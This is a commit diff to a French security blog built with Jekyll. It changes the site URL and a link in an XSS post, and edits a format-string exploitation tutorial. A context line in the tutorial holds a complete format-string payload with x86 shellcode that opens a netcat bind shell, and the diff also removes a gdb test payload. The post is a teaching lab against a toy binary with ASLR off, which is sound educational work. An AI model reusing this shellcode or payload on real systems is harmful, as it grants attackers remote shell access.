

Before and after one commit to phackt/phackt.github.io, a Jekyll site: the page built from _posts/2017-02-28-format-string.markdown, in a window 1280 px wide and 900 px high, scrolled down 8201 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced.

Commit message:
update conf + posts

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -11,7 +11,7 @@ email: phackt[AT]protonmail.com
 description: "<h2>Development and infosec stuff here!</h2>Enjoy!"
 
 baseurl: "" # the subpath of your site, e.g. /blog
-url: "https://phackt.github.io" # the base hostname & protocol for your site
+url: "https://phackt.fr" # the base hostname & protocol for your site
 #url: "http://localhost:4000" # testing for localhost
 
 #S ocial network
--- a/_posts/2016-08-15-xss-cors-csrf-partie-2-xss-cookies-session.markdown
+++ b/_posts/2016-08-15-xss-cors-csrf-partie-2-xss-cookies-session.markdown
@@ -119,7 +119,7 @@ La spécification **XMLHttpRequest** interdit l’accès à certains response he
 </script>
 ```
 
-Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1](https://phackt.github.io/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.
+Bingo, même avec un path défini pour ce cookie, nous avons pu le récupérer, et si vous avez bien retenu votre leçon dans le [volet 1]({{ site.url }}/xss-cors-csrf-partie-1-xss) de notre saga XSS, vous connaissez la contre-mesure à ce payload : le response header **X-Frame-Options** qui interdit qu’une page soit rendue dans un ```<frame>```, ```<iframe>``` ou ```<object>```. Bien évidemment il est préférable en amont de toujours positionner le flag **HttpOnly**. L’accès au cookie par javascript est peu justifiable dans les développements Web.
 
 > *"J’ai activé la console de mon navigateur et je remarque cependant un warning:"*
 
--- a/_posts/2017-02-28-format-string.markdown
+++ b/_posts/2017-02-28-format-string.markdown
@@ -51,10 +51,8 @@ int main(int argc, char const *argv[])
 
 L'exécution est simple:
 ![fmt1]({{ site.url }}/public/images/fmt/fmt1.png)
-
 Fuzzons juste pour vérifier que le fgets fait bien son boulot et que nous évitons un débordement classique:
 ![fmt2]({{ site.url }}/public/images/fmt/fmt2.png)
-
 Maintenant faisons un autre test:
 ```bash
 #python -c 'print "%x"*100' | ./simple
@@ -168,10 +166,6 @@ Segmentation fault. 0x000a0009 in ?? ()
 ```
 
 Maintenant déterminons l'adresse précise de notre shellcode:
-```
-(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%65535x" + "%8$hn" + "%65535x" + "%7$hn" + "A"*50')
-```
-
 ![fmt12]({{ site.url }}/public/images/fmt/fmt12.png)
 **0xbffff26c** semble être un bon candidat. On ajoutera quelques NOPs également comme marge de manoeuvre, l'objectif étant de tomber dans nos NOPs et de slider jusqu'à notre shellcode.
 
@@ -211,13 +205,10 @@ Nous adaptons donc notre payload et le testons sous gdb:
 ```
 (gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80"')
 ```
-
 ![fmt14]({{ site.url }}/public/images/fmt/fmt14.png)
 Here we go, essayons de nous connecter:
-
 ![fmt15]({{ site.url }}/public/images/fmt/fmt15.png)
 Du coté de notre shellcode:
-
 ![fmt16]({{ site.url }}/public/images/fmt/fmt16.png)
 Nous pouvons donc en conclure qu'à partir d'un simple appel *printf*, il a été possible d'exécuter un bind shell. Bien évidemment ceci est un cas d'école et a été possible grâce à la désactivation de l'ASLR, rendant ainsi nos adresses prédictibles.
 
````
